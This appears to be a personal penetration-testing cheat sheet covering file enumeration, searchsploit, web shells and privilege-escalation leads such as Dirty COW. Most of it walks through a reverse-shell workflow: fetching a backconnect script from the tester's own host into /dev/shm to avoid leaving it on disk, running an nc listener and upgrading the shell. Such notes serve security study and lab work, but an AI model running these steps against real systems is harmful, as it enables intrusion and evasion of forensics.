 base64  
    this program can encode/decode to/from base64 encoding
    `echo <base64-encoded-string> | base64 -d`

`find /home -type f -printf "%f\t%p\t%u\t%g\t%m" -maxdepth=2`
    Print files, and print different properties of the files to a certain depth.

`dpkg -l` | grep -i <name-of-package-of-interest>
    dpkg -l: will list all the installed software packages
    

Exploit tools
-------------

- searchsploit
    Searches exploitdb to look for exploits for a given application version.
    searchsploit -x 11746.txt to open the exploit
    searchsploit -m 11746.txt to mirror(copy) the exploit

Reverse shells
--------------
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- reverse shells:
    - python-pty-shells: just google it on GitHub:
        tcp_pty_backconnect.py

Injectable Web Exploit Code: /usr/share/laudanum/README   -- make sure to use this!!

- python2 -m SimpleHTTPServer
- python3 -m http.server
    These will spawn a simple webservers. This will allow us to download stuff from our machine to
        the machine where we placed the code executor php file. Just do a code execution of 
                wget <OUR-IP>:8000/tcp_pty_backconnect.py -O /dev/shm/.reverse_shell.py
        It is good practice to save a reverse shell to /dev/shm so it will not be saved to hard drive.

- `nc -nlvp <PORT>` to set up a listen "server" to accept incoming connections

- Once we uploaded the reverse shell using our simple http server, we do
      python tcp_pty_shell_handler.py -b <IP>:<PORT>
        then we execute the reverse shell on the remote machine and we get the shell.

- Nice real bash pty using python once you have a reverse shell using nc

    python -c 'import pty; pty.spawn("/bin/bash")'
    bash$ then you hit C-Z to put the connection to background
    $ stty raw -echo
    $ fg
    bash$
    
    And now you have a nice bash with good completion and input.


Vulnerabilities
---------------

Old linux kernel - DIRTY COW exploitable
MOTD - PAM - Pluggable Authentication Module (searchsploit motd)

